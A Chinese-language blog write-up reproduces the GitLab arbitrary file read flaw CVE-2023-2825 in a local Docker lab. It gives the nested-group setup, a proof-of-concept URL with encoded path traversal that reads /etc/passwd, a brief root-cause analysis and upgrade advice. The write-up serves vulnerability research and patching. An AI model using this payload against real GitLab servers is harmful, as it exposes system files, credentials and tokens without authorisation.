GitLab任意读取文件漏洞简单复现(CVE-2023-2825)
前言
CVE-2023-2825 漏洞源于路径遍历问题，当一个附件存在于至少五个组内嵌套的公共项目中时，未经认证的攻击者可以在服务器上读取任意文件。利用 CVE-2023-2825 漏洞还可能会暴露包括专有软件代码、用户凭证、令牌、文件和其他私人信息在内的敏感数据。
影响版本
GitLab CE/EE版本：16.0.0
环境搭建
这里直接使用docker搭建16版本的环境；拉去镜像
1 | docker pull gitlab/gitlab-ce:16.0.0-ce.0 |

启动命令
1 | docker run -itd -p 8443:443 -p 8880:80 -p 222:22 --name gitlab2825 gitlab/gitlab-ce:16.0.0-ce.0 |

稍等片刻即可

进入容器内部查看密码

使用账号root结合该密码成功登录到gitlab
创建group嵌套项目
创建十五个group

创建一个项目

从模板添加一个项目

添加项目附件
发起iuss

添加附件为一个图片

访问如下URL可以访问附件
1 | http://192.168.88.104:8880/gro1/gro2/gro3/gro4/gro5/gro6/gro7/gro8/gro9/gro10/gro11/gro12/gro13/gro14/gro15/sectest/uploads/0fd0306fac2cb12ded8d284efeff2a79/qwe.jpg |

POC利用
1 | http://192.168.88.104:8880/gro1/gro2/gro3/gro4/gro5/gro6/gro7/gro8/gro9/gro10/gro11/gro12/gro13/gro14/gro15/sectest/uploads/0fd0306fac2cb12ded8d284efeff2a79/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd |

简单分析
当用户请求的时候是需要经过以下的流程
nginx–>Workhorse–>puma
当nginx处理复杂的URI的时候，只会对URL编码进行部分解码。随后传到Workhorse，转发到puma，由puma去做文件读取。
在服务器查看存储的附件的位置，大概有10层，我们上述创建的group为15层，符合大于这里的10层的要求。

利用条件
存在嵌套group项目；且嵌套的数目大于根目录存储附件的层数，同时需要有issus等
修复建议
目前该漏洞已经修复，受影响用户可升级到以下版本：
GitLab CE/EE版本：>= 16.0.1